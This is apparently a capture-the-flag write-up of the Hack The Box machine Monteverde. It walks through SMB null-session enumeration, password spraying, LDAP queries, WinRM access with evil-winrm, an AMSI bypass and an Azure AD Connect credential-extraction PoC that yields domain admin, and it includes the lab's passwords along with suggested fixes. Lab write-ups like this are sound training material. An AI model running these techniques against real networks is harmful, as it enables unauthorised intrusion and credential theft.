 # Monteverde – 10.10.10.172

To begin with, a Nmap scan will be issued to obtain all the open TCP ports on the target. Following command is used ```sudo nmap -sS --min-rate 10000 -p- monteverde.htb```

![image](images/Monteverde/Imagen1.png)

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -sC -sV -O --min-rate 1000 -p53,88,135,139,389,445,464,593,636,5985,9389 monteverde.htb```

![image](images/Monteverde/Imagen2.png)

As it can be seen in the previous picture, domain name is « megabank.local » which will be added to hosts file.

### SMB Enumeration

Due to the open ports and running services, Monteverde seems to be a Domain Controller.

First thing will be to enumerate SMB service using “CrackMapExec”.

Lets check if the server allows null session with ```crackmapexec smb megabank.local -u '' -p '' ```

![image](images/Monteverde/Imagen3.png)

As it is allowed, lets enumerate domain users with ```crackmapexec smb megabank.local -u '' -p '' --users```
 
![image](images/Monteverde/Imagen4.png)

Next step is to enumerate shares with ```crackmapexec smb megabank.local -u ‘’ -p ‘’ --shares```.
 
![image](images/Monteverde/Imagen5.png)

After some failed tests, I decided to check if any user’s password was equal to the username. Used command for that was```“crackmapexec smb megabank.local -u usernames.txt -p usernames.txt --shares```, if any valid credentials are found, it will try to enumerate domain shares. 
 
![image](images/Monteverde/Imagen6.png)

As shown in previous picture, new domain credentials were found ```SABatch-Jobs:SABatchJobs```.

Using the newly found set of credentials I will spider all the shares looking for the pattern “.” In order to find any juicy files. Command used is ```crackmapexec smb megabank.local -u ‘SABatchJobs’ -p ‘SABatchJobs’ --spider users$ --pattern ‘.’```
 
![image](images/Monteverde/Imagen7.png)

One file is found “azure.xml”. After downloading it using smbclient, I check its contents.
 
![image](images/Monteverde/Imagen8.png)

A new password is found ```4n0therD4y@n0th3r$```. As it is stored in a file located on user’s ```mhope``` personal directory, it is probably related to this user. However, all the usernames will be checked by performing a password spraying attack using crackmapexec ```crackmapexec smb megabank.local -u usernames.txt -p '4n0therD4y@n0th3r$' --continue-on-success```
 
![image](images/Monteverde/Imagen9.png)

As it is shown in the picture, the password is user’s ```mhope``` domain password.

### LDAP Enumeration

After getting Domain credentials is useful to perform LDAP authenticated enumeration us-ing python. My main goal now is to obtain more info about user “mhope” (who is not allowed to authenticate via LDAP).

```
import ldap3
>>>server=ldap3.Server(’10.10.10.172’, get_info=ldap3.ALL, port=389, use_ssl= False)

>>>connection=ldap3.Connection(server, 'SABatchJobs', 'SABatchJobs')

>>>connection.bind()
True
>>>server.info
```

![image](images/Monteverde/Imagen10.png)

Now that naming context is known, more info can be extracted.

```
>>>connection.search('dc=megabank,dc=local', '(objectclass=user)')

>>>connection.entries

```
 
![image](images/Monteverde/Imagen11.png)

```
>>>connection.search('CN=Mike Hope,OU=London,OU=MegaBank Us-ers,dc=megabank,dc=local', '(objectclass=user)', search_scope='SUBTREE', attributes='*')

>>>connection.entries
```
![image](images/Monteverde/Imagen12.png)

Now we know that user “mhope” is a member of the Security Groups “Azure Admins” and “Remote Management Users”. As a result of the second membership, he can access the domain controller through “WinRM”.

## Initial Access – Insecure Credentials

**Vulnerability Explanation**: after enumerating domain users through SMB using a null ses-sion, it was found that user’s “SABatchJobs” password was equal to the username. Using these credentials, it was possible to find a file stored on another user’s personal directory that contained another password. After performing a Password Spraying Attack, it was found that this password was user’s “mhope” domain password.

**Vulnerability Fix**: avoid using the same username as password. Avoid storing publicly readable files containing cleartext passwords.

**Severity**: Critical

**Steps to reproduce the attack**:

-	Steps to obtain credentials for user ```mhope``` are explained on SMB Enumeration
-	Authenticate through WinRM using ```evil-winrm -i megabank.local -u mhope -p ‘4n0therD4y@n0th3r$’ ```
-	Grab ```C:\Users\mhope\Desktop\user.txt```
 
![image](images/Monteverde/Imagen13.png)

## Post-Exploitation

Once obtained access to the DC, it is time to enumerate its contents. First thing done was to bypass amsi using ```Evil-winrm``` functionality ```Bypass-4MSI```. After that, ```winpeas```is uploaded to the server.
 
![image](images/Monteverde/Imagen14.png)

As ```mhope``` is a member of ```Azure Admins``` the highlighted installed software is quite interesting. 

Looking through google, I found ![this](https://blog.xpnsec.com/azuread-connect-for-redteam/) post where there is a good explanation of how to lever-age Azure AD Connect to escalate privileges.

In order to allow Active Directory users to authenticate using AD credentials and access cloud services such as Azure, Office365 and more, there are three main different ways in which Azure AD can be configurated to integrate with existing Active Directory deployments:
- Password Hash Synchronization: uploading AD password hashes to Azure AD.
- Pass-through Authentication: allows Azure AD to forward authentication requests onto on-prem AD.
- Federated Authentication: traditional ADFS deployment.

Here, the first one is being used.

By default, “MSOL[hex_value]” user is the one that takes care of Active Directory to Azure replication. To support the synchronization service, metadata and configuration data is stored (parts of the data are encrypted using ```mcrypt.dll```) on the MSSQL database that by default is created when the Azure connector is deployed onto a host. Among that data is “MSOL_[hex]” user password’s hash. In this case “mhope” as a member of "Azure Admins” can access the MSSQL database.

A PowerShell PoC that uses the before mentioned DLL can be found ![here](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). Using this poc script is possible to retrieve the stored cleartext domain, username and password.

## Privilege Escalation – Misconfigured Azure AD Connect

**Vulnerability Explanation**: a deeper explanation can be found in the previous section 4.1.3 Post-Exploitation. The user whose credentials are used to synchronize AD with Azure AD is “Administrator”. Then, once these credentials are retrieved using the above mentioned PoC, Domain Administrator account is compromised.

**Vulnerability Fix**: never use an Administrator account to perform this task as Administrative privileges are not required.

**Severity**: Critical

**Steps to reproduce the attack**: 

- Download the ![script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) and upload it to the host.
 
![image](images/Monteverde/Imagen15.png)

- Import the module and execute it ```Azure-ADConnect -server 127.0.0.1 -db ADSync```
 
![image](images/Monteverde/Imagen16.png)

- Access through WinRM as Administrator with Evil-WinRm with ```evil-winrm -I mega-bank.local -u Administrator -p “d0m@in4dminyeah!```
 
![image](images/Monteverde/Imagen17.png)

**Screenshot**:

![image](images/Monteverde/Imagen18.png)


